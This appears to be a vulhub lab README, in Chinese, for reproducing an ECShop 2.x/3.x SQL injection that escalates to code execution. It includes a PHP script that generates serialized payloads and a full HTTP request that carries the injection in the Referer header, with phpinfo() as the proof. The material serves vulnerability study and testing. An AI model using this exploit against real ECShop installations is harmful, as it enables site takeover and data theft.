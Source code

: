 # ECShop 2.x/3.x SQL注入/任意代码执行漏洞

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。如图：

![](0.png)

## 漏洞复现

我编写了一个脚本，可以生成2.x和3.x的POC：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

2.x的执行结果

![](1.png)

3.x的执行结果：

![](2.png)
